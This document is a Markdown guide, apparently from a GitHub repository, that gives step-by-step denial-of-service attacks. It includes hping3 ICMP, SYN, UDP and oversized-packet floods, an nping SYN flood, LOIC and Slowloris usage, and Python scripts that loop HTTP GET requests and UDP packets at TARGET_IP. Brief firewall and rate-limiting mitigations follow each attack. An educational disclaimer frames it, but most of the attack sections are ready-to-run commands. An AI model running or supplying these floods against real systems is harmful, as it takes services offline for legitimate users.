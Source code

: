 ```markdown
# Complete Guide to DoS Attacks

---

## ⚠️ Disclaimer

**This guide is for educational purposes only**. Unauthorized use of these techniques to attack systems, networks, or individuals is illegal and punishable by law. Use this guide only in a lab environment or with explicit permission.

---

## 📖 What is a DoS Attack?

A **Denial of Service (DoS)** attack aims to overwhelm a target, such as a server, network, or service, with traffic or resource requests, rendering it unavailable to legitimate users.  

Unlike Distributed DoS (DDoS), a DoS attack uses a single source to launch the attack.

---

## 🚀 Step-by-Step Guide to Performing DoS Attacks

### Prerequisites

1. **Lab Environment**  
   - Use a virtualized or isolated network for testing.
   - Set up a target machine (e.g., a web server or application).
   - Ensure all activities comply with the law and ethical guidelines.

2. **Tools to Install**
   - `hping3`
   - `LOIC (Low Orbit Ion Cannon)`
   - `Slowloris`
   - `Nmap`
   - Any other DoS tools (ensure they are ethical and authorized).

3. **Linux Command Line Knowledge**
   Basic command-line skills are required to use tools effectively.

---

## 🔧 Types of DoS Attacks and How to Perform Them

### 1. **ICMP Flood (Ping Flood)**

**Description:** Overloads the target by sending a large number of ICMP Echo requests (pings).

#### Steps:
1. **Install `hping3`:**
   ```bash
   sudo apt install hping3
   ```
2. **Run an ICMP Flood:**
   ```bash
   hping3 -1 --flood TARGET_IP
   ```
   - `-1`: ICMP mode.
   - `--flood`: Send packets as fast as possible.

#### Mitigation:
- Block ICMP traffic using a firewall.
- Limit the rate of ICMP responses.

---

### 2. **SYN Flood**

**Description:** Exploits the TCP handshake by sending a large number of SYN packets, leaving the target unable to process legitimate connections.

#### Steps:
1. **Run a SYN Flood with `hping3`:**
   ```bash
   hping3 -S -p 80 --flood TARGET_IP
   ```
   - `-S`: SYN flag.
   - `-p 80`: Target port (HTTP in this example).

2. **Alternative with `nping` (part of Nmap):**
   ```bash
   nping --tcp -p 80 --rate 1000 TARGET_IP
   ```

#### Mitigation:
- Enable SYN cookies on the server.
- Use rate-limiting tools like `iptables`.

---

### 3. **HTTP Flood**

**Description:** Sends numerous HTTP GET or POST requests to overload the target’s web server.

#### Steps:
1. **Using `LOIC`:**
   - Download and install LOIC: [GitHub - LOIC](https://github.com/NewEraCracker/LOIC).
   - Enter the target's IP or URL and choose **HTTP Mode**.
   - Start the attack.

2. **Using Python Script (HTTP GET Flood):**
   ```python
   import requests

   target = "http://TARGET_IP"
   while True:
       try:
           requests.get(target)
       except:
           pass
   ```
   - Run this script in a loop to flood the target.

#### Mitigation:
- Use a Web Application Firewall (WAF).
- Block suspicious IP addresses.

---

### 4. **Slowloris Attack**

**Description:** Keeps multiple connections to the web server open for as long as possible, exhausting server resources.

#### Steps:
1. **Install `Slowloris`:**
   ```bash
   git clone https://github.com/gkbrk/slowloris.git
   cd slowloris
   python3 slowloris.py TARGET_IP
   ```

#### Mitigation:
- Limit the number of connections per IP.
- Use a load balancer.

---

### 5. **UDP Flood**

**Description:** Overloads the target by sending large amounts of UDP packets.

#### Steps:
1. **Run a UDP Flood with `hping3`:**
   ```bash
   hping3 --udp -p 80 --flood TARGET_IP
   ```
   - `--udp`: Send UDP packets.

2. **Using Python (UDP Flood):**
   ```python
   import socket

   target = "TARGET_IP"
   port = 80
   data = b"X" * 1024
   s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
   while True:
       s.sendto(data, (target, port))
   ```

#### Mitigation:
- Block UDP traffic using a firewall.
- Use tools to detect abnormal traffic patterns.

---

### 6. **Ping of Death**

**Description:** Sends malformed or oversized packets to crash the target system.

#### Steps:
1. **Run with `hping3`:**
   ```bash
   hping3 -d 65500 -1 TARGET_IP
   ```
   - `-d`: Packet size (oversized packets).

#### Mitigation:
- Ensure systems are updated with the latest patches.
- Block oversized ICMP packets.

---

## 🛡️ Best Practices for Mitigation

1. **Firewalls and Rate Limiting**  
   - Use `iptables` to block or limit traffic.
   - Example:
     ```bash
     sudo iptables -A INPUT -p tcp --dport 80 -m connlimit --connlimit-above 20 -j DROP
     ```

2. **Load Balancers**  
   - Distribute traffic across multiple servers.

3. **Use a CDN**  
   - Services like Cloudflare can help absorb traffic.

4. **Monitoring Tools**  
   - Use tools like `Wireshark`, `Zabbix`, or `Nagios` to monitor traffic and detect anomalies.

---

## 📦 Resources and Tools

- [Official Nmap Site](https://nmap.org)
- [LOIC on GitHub](https://github.com/NewEraCracker/LOIC)
- [OWASP DoS Guide](https://owasp.org/www-community/attacks/Denial_of_Service)

---

## ✍️ Final Note

This guide provides a foundation for understanding and simulating DoS attacks in an ethical, legal, and controlled environment. Always ensure you have permission to test the systems you work on.

---
```
